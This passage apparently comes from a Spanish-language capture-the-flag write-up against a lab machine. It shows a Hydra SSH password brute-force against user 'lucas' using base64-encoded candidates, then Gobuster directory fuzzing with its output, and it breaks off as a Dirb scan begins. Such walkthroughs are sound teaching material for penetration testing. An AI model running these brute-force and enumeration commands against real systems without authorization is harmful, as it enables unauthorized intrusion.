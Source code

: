 Con eso codificado, haré fuerza bruta con esas opciones al SSH con el usuario *lucas*:

~~~bash
❯ hydra -l lucas $ip -P passencode.txt ssh -F
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-30 11:59:35
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:1/p:6), ~1 try per task
[DATA] attacking ssh://192.168.0.21:22/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-30 11:59:38
~~~


## Fuzzing

No ha habido suerte, voy a realizar fuzzing por si hay algo más escondido:

~~~
❯ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x php,html,txt -u $ip
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.21
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2022/11/30 12:03:30 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 276]
                                               
===============================================================
2022/11/30 12:04:48 Finished
===============================================================
~~~

Tampoco encontramos nada... En este punto como la pista nos indica que TODO está en base64 se me ocurre codificar el diccionario y probar de nuevo fuzzing, en este caso lo haré con el common que es más pequeño. Como ya tenemos el script creado, solo es usarlo:

`❯ ./base64.sh /usr/share/wordlists/dirb/common.txt dict.txt`

Con el diccionario codificado, hacemos nuevamente fuzzing, en este caso usaré Dirb:
